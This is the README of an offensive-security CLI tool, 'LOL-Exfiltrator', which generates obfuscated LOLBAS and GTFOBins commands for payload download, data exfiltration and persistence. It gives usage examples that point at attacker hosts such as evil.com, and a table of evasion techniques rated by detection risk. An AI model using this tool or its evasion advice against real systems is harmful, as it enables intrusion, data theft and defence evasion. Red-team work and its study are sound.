

# LOL-Exfiltrator

A Python CLI tool that generates clear and obfuscated commands using Windows (LOLBAS) and Linux (GTFOBins) binaries.

## Preview



## Features

- 34 built-in techniques (15 Windows + 19 Linux)
- 12 obfuscation methods
- Supports Download, Upload, and Persistence actions
- Interactive and non-interactive modes
- Colored terminal output

## Detection Risks

| Technique | Detection Risk | Use When |
|-----------|---|---|
| env_var | Medium | Running as non-admin |
| ps_b64 | Low | PowerShell access available |
| hex_ip | Low | Need to bypass IP-based IOCs |
| b64_bash | Low | Need stealth on Linux |

## Setup

```bash
pip install colorama
```

## Detailed Usage Guide

LOL-Exfiltrator can be run in two main modes: **Interactive** (Wizard) and **Non-Interactive** (Command Line).

### 1. Interactive Mode (Recommended)
Simply run the script without any arguments. A step-by-step wizard will guide you through selecting the OS, action, and network details.
```bash
python lol_exfiltrator.py
```

### 2. Non-Interactive Mode (CLI Flags)
Perfect for scripting or quick command generation. You can provide arguments directly to generate commands instantly.

**Arguments:**
- `--os` or `-O`: Target Operating System (`windows` or `linux`)
- `--action` or `-a`: The phase of the attack (`download`, `upload`, or `persistence`)
- `--ip` or `-i`: Attacker's IP address or Domain Name
- `--port` or `-p`: Attacker's listening port (Default: 8080)
- `--filename` or `-f`: The file to transfer or execute
- `--binary` or `-b`: Filter results to a specific tool (e.g., `nc`, `certutil`, `curl`)
- `--obf-technique` or `-t`: Specify an obfuscation method (Default: `auto`)
- `--list` or `-l`: List all available techniques for the chosen OS and Action

### 3. Examples

**Scenario 1: Windows Payload Download**
Generate an obfuscated command to download a payload (`shell.exe`) on a Windows machine.
```bash
python lol_exfiltrator.py --os windows --action download --ip 10.10.10.10 --port 8080 --filename shell.exe
```

**Scenario 2: Linux Data Exfiltration using Netcat**
Filter techniques specifically for `nc` (Netcat) to exfiltrate a ZIP file from a Linux target.
```bash
python lol_exfiltrator.py --os linux --action upload --ip 10.0.0.1 --port 4444 --filename loot.zip --binary nc
```

**Scenario 3: Establishing Persistence**
Get commands for setting up persistence. This will provide commands where the `ip` is used as a callback URL.
```bash
python lol_exfiltrator.py --os linux --action persistence --ip evil.com --port 443 --filename callback.sh
```

**Scenario 4: Listing All Techniques**
See a catalogue of all available Windows download techniques without generating full commands.
```bash
python lol_exfiltrator.py --list --os windows --action download
```

**Scenario 5: Advanced Obfuscation**
Force a specific advanced obfuscation technique (e.g., 4-layer Windows cascade).
```bash
python lol_exfiltrator.py --os windows --action download --ip 10.10.10.10 --filename drop.exe --obf-technique multilayer_win
```

## Project Structure

```
lol_exfiltrator/
├── lol_exfiltrator.py        # Main CLI
├── commands/
│   ├── windows_lolbas.py     # Windows commands
│   └── linux_gtfobins.py     # Linux commands
└── core/
    ├── obfuscator.py         # Obfuscation engine
    └── display.py            # Output formatting
```

## Disclaimer

For authorized testing and educational use only.
